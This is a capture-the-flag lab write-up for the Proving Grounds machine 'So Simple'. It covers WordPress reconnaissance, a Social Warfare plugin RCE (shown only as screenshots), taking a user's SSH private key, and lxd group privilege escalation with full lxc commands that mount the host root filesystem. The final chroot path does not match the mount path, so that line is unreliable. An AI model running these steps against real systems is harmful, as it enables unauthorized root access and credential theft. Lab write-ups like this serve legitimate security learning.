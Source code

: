 * * *
 ### LAB: SO SIMPLE
 ### PLATFORM: PROVING GROUNDS
* * *

- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/583ce09b-3d2e-469c-8439-628f7c7c3030)

- FFuf spotted a wordpress directory    


- Scanning with `wpscan --url <url>` for information about the wordpress site and a particular plugin caught my attention which is the `social warfare wp plugin`

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37b131e1-0088-4bc5-bb3e-5ada1bbeae4f) 
  
- `Social warfare 3.5.0` has an unauthenticated remote code execution flaw via Remote File Inclusion.I wrote an exploit for it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4bec41f2-29fa-408b-ae90-a2693dfef8bd)
  
- Now we have a stabilied shell

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d19b707b-33d6-416d-98de-a1ba6822de1f)  

### Road to PRIVESC 

- One of the user Max has a private key in his `.ssh` directory

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63442927-533b-4cb6-b500-e2c243f89549)

- We can send the file with python http.server to our machine, change permissions with `chmod 600 <id_rsa>` and ssh to max's account

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cfb16a3d-6959-4588-8fdd-de9a3a2c6afe)
  

### Privilege escalation with lxd user

- I ran `id` and discovered that his account is part of the user group,we can escalate privileges by creating a misconfigured container lxc
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/daa34c20-99a8-424c-a5f4-25111ffdb8b8) 
  

- I ran this bash one-liner `cat /etc/passwd | grep "lxd"` to check if lxd is a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd539238-3616-42ca-ab70-4cdb8f471882)
  

- I checked if lxd has a running process with `ps -ef | grep -i "lxd\|lxc"`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cabd4c6b-d5f4-47ff-8a40-99b855d37f38)   

- I used this commands to build an lxd image as root on the host machine

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine

- Use a directory like `/dev/shm` or `/tmp` to receive the alpine image
- Set up a python http server and send the recent image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d54e4a2-233d-4cfe-b4bd-fce90a703b06)  

- Receive it on `/tmp/` to initialize the image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4ea75f7d-8504-43fa-a3dd-801f02bc7236)
  

- Create a storage pool with `lxd init`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b4dac9c1-aef5-4e62-aa18-43286b897811)  

- Import the image with this command

       lxc image import alpine-v3.16-x86_64-20221112_0508.tar.gz --alias alpine

- List images with

      lxc image list

- Use the commands below to initialize the images in /tmp 

      lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/23511f48-5d10-481d-aa8d-f120e604ea71)
  

 - To execute the container use `lxc exec juggernaut sh`
 - Breakout with `chroot /root/mnt`,voila!!!, root accesss

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c47dde3e-73c5-4e02-a940-1630f4f613a4)


  
  

  
